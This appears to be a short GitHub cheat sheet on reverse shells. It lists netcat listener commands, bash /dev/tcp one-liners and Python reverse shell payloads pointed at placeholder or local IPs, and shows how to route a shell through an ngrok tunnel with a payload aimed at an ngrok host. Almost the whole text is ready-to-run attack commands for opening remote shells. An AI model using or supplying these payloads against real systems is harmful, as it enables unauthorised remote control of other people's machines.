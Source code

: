 ## Reverse Shell Learing:
### Netcat using:
    Windows: $ ncat -lvnp 444
    Linux: $ nc -lvnp 444
#### Bin & Bash:
```
1. sh -i >& /dev/tcp/0.0.0.0/4444 0>&1
2. /bin/sh -i >& /dev/tcp/0.0.0.0/4444 0>&1
3. bash -i >& /dev/tcp/0.0.0.0/4444 0>&1
4. /bin/bash -i >& /dev/tcp/0.0.0.0/4444 0>&1
```
#### Python:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
#### Python3:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.100.101",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Port forwarding using Ngrok:
```
1. Run ngrok
  $ ngrok tcp 1234   (Output is: tcp://0.tcp.in.ngrok.io:18304)
2. Run Netcat
  $ nc -lvnp 1234
3. Payloads:
 /bin/bash -i >& /dev/tcp/0.tcp.in.ngrok.io/18304 0>&1
```

